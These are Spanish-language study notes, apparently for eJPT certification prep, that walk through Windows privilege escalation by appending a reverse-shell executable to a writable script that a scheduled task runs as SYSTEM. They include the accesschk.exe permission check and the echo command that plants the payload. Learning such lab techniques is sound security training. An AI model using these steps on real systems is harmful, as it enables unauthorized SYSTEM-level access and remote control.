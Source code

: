 
- Ver el contenido del script C:\DevTools\CleanUp.ps1:

```
type C:\DevTools\CleanUp.ps1
```

- El script parece estar ejecutándose como SYSTEM cada minuto. Usando accesschk.exe, tenga en cuenta que tiene la capacidad de escribir en este archivo:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

- Inicie un oyente en Kali y luego agregue una línea al C:\DevTools\CleanUp.ps1 que ejecuta el ejecutable reverse.exe que creó:

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

- Espere a que se ejecute la Tarea Programada, que debería activar el shell inverso como SYSTEM.

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]
